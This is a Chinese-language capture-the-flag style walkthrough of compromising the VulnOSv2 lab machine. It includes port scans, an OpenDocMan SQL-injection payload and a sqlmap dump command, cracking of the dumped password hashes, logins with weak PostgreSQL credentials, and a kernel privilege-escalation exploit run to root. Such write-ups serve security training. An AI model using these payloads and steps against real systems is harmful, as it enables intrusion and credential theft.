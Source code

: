 ### 端口扫描

```bash
# Nmap 7.94SVN scan initiated Sat Nov  9 00:32:39 2024 as: nmap -sT --min-rate 5000 -p- -oN nmap_results/port_scan 192.168.56.104
Nmap scan report for 192.168.56.104
Host is up (0.012s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
6667/tcp open  irc
MAC Address: 08:00:27:FD:AF:86 (Oracle VirtualBox virtual NIC)
```

```bash
# Nmap 7.94SVN scan initiated Sat Nov  9 00:33:57 2024 as: nmap -sT -sV -sC -O -p22,80,6667 -oN nmap_results/detils_scan 192.168.56.104
Nmap scan report for 192.168.56.104
Host is up (0.0017s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 f5:4d:c8:e7:8b:c1:b2:11:95:24:fd:0e:4c:3c:3b:3b (DSA)
|   2048 ff:19:33:7a:c1:ee:b5:d0:dc:66:51:da:f0:6e:fc:48 (RSA)
|   256 ae:d7:6f:cc:ed:4a:82:8b:e8:66:a5:11:7a:11:5f:86 (ECDSA)
|_  256 71:bc:6b:7b:56:02:a4:8e:ce:1c:8e:a6:1e:3a:37:94 (ED25519)
80/tcp   open  http    Apache httpd 2.4.7 ((Ubuntu))
|_http-title: VulnOSv2
|_http-server-header: Apache/2.4.7 (Ubuntu)
6667/tcp open  irc     ngircd
MAC Address: 08:00:27:FD:AF:86 (Oracle VirtualBox virtual NIC)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop
Service Info: Host: irc.example.net; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

```bash
nmap --script=vuln -p80,6667 -oN nmap_results/script_scan 192.168.56.104
```

### web端渗透

> http://192.168.56.104/jabc

这一段话是隐藏的，可以在源码中查看，`guest`用户可以登录

![image-20241109183017865](https://dabai1-1316520326.cos.ap-shanghai.myqcloud.com/img/image-20241109183017865.png)

访问`/jabcd0cs`

```bash
┌──(root㉿kali)-[~/vulnhub/vulnosv2]
└─# whatweb http://192.168.56.104/jabcd0cs/              
http://192.168.56.104/jabcd0cs/ [200 OK] Apache[2.4.7], Bootstrap, Cookies[PHPSESSID], Country[RESERVED][ZZ], HTTPServer[Ubuntu Linux][Apache/2.4.7 (Ubuntu)], IP[192.168.56.104], JQuery, OpenDocMan[1.2.7], PHP[5.5.9-1ubuntu4.14], PasswordField[frmpass], Script[text/javascript], Title[JABC-D0CS], X-Powered-By[PHP/5.5.9-1ubuntu4.14]
```

`openDocMan`DMS文档管理系统，版本1.2.7

```bash
searchsploit opendocman -m 32075
```

该版本有多个漏洞

> SQL Injection in OpenDocMan: CVE-2014-1945
>
> ```
> http://[host]/ajax_udf.php?q=1&add_value=odm_user%20UNION%20SELECT%201,version%28%29,3,4,5,6,7,8,9
> ```

sqlmap

```bash
sqlmap -u "http://192.168.56.104/jabcd0cs/ajax_udf.php?q=1&add_value=odm_user%20UNION%20SELECT%201,version%28%29,3,4,5,6,7,8,9" -D jabcd0cs -T odm_user -C username,password --dump
```

```
+----------+------------------------------------------+
| username | password                                 |
+----------+------------------------------------------+
| webmin   | b78aae356709f8c31118ea613980954b         |
| guest    | 084e0343a0486ff05530df6c705c8bb4 (guest) |
+----------+------------------------------------------+
```

找个在线网站，爆破md5

`webmin1980`

拿到密码，网站可以登录上去，没找到利用点，然后就是SSH登录

### 系统立足点

```bash
ssh webmin@192.168.56.104
```

### 提权

查看`passwd`文件，发现有`postgres`用户，还有PostgreSQL数据库

> ```
> postgres:x:107:116:PostgreSQL administrator,,,:/var/lib/postgresql:/bin/bash
> ```

```
ss -ta
```

![image-20241109220517216](https://dabai1-1316520326.cos.ap-shanghai.myqcloud.com/img/image-20241109220517216.png)

尝试弱密码`postgres:postgres`,成功登录

```postgresql
$ psql -h 127.0.0.1 -U postgres
Password for user postgres: 
psql (9.3.11)
SSL connection (cipher: DHE-RSA-AES256-GCM-SHA384, bits: 256)
Type "help" for help.

postgres=# \l
                                  List of databases
   Name    |  Owner   | Encoding |   Collate   |    Ctype    |   Access privileges   
-----------+----------+----------+-------------+-------------+-----------------------
 postgres  | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | 
 system    | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | =CTc/postgres        +
           |          |          |             |             | postgres=CTc/postgres
 template0 | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | =c/postgres          +
           |          |          |             |             | postgres=CTc/postgres
 template1 | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | =c/postgres          +
           |          |          |             |             | postgres=CTc/postgres
(4 rows)

postgres=# \c system
SSL connection (cipher: DHE-RSA-AES256-GCM-SHA384, bits: 256)
You are now connected to database "system" as user "postgres".
system=# \d
         List of relations
 Schema | Name  | Type  |  Owner   
--------+-------+-------+----------
 public | users | table | postgres
(1 row)

system=# select * from users;
 ID |  username   |    password     
----+-------------+-----------------
  1 | vulnosadmin | c4nuh4ckm3tw1c3
(1 row)
```

拿到一对凭据`vulnosadmin:c4nuh4ckm3tw1c3`

```bash
vulnosadmin@VulnOSv2:~$ ls -la
total 476
drwxr-x--- 3 vulnosadmin vulnosadmin   4096 May  4  2016 .
drwxr-xr-x 4 root        root          4096 Apr 16  2016 ..
-rw------- 1 vulnosadmin vulnosadmin   4817 May  4  2016 .bash_history
-rw-r--r-- 1 vulnosadmin vulnosadmin    220 Apr  3  2016 .bash_logout
-rw-r--r-- 1 vulnosadmin vulnosadmin   3637 Apr  3  2016 .bashrc
drwx------ 2 vulnosadmin vulnosadmin   4096 Apr  3  2016 .cache
-rw-r--r-- 1 vulnosadmin vulnosadmin    675 Apr  3  2016 .profile
-rw-rw-r-- 1 vulnosadmin vulnosadmin 449100 May  4  2016 r00t.blend
-rw------- 1 root        root          1504 May  2  2016 .viminfo
```

发现`r00t.blend`文件，使用blend软件，隐藏掉图形后，发现在该文件发现密码 ：`ab12fg//drg`

成功登录root

### 内核提权

```bash
vulnosadmin@VulnOSv2:~$ uname -a
Linux VulnOSv2 3.13.0-24-generic #47-Ubuntu SMP Fri May 2 23:31:42 UTC 2014 i686 i686 i686 GNU/Linux
vulnosadmin@VulnOSv2:~$ cat /proc/version
Linux version 3.13.0-24-generic (buildd@komainu) (gcc version 4.8.2 (Ubuntu 4.8.2-19ubuntu1) ) #47-Ubuntu SMP Fri May 2 23:31:42 UTC 2014
vulnosadmin@VulnOSv2:~$ cat /etc/*release
DISTRIB_ID=Ubuntu
DISTRIB_RELEASE=14.04
DISTRIB_CODENAME=trusty
DISTRIB_DESCRIPTION="Ubuntu 14.04.4 LTS"
NAME="Ubuntu"
VERSION="14.04.4 LTS, Trusty Tahr"
ID=ubuntu
ID_LIKE=debian
PRETTY_NAME="Ubuntu 14.04.4 LTS"
VERSION_ID="14.04"
```

内核版本`3.13.0`，系统版本`Ubuntu 14.04.4`

```bash
searchsploit linux kernel 3.13.0
```

`37292`符合，下载到靶机，编译

```bash
vulnosadmin@VulnOSv2:/tmp$ ./a.out
spawning threads
mount #1
mount #2
child threads done
/etc/ld.so.preload created
creating shared library
# id
uid=0(root) gid=0(root) groups=0(root),4(adm),24(cdrom),30(dip),46(plugdev),110(lpadmin),111(sambashare),1000(vulnosadmin)
# whoami
root
```

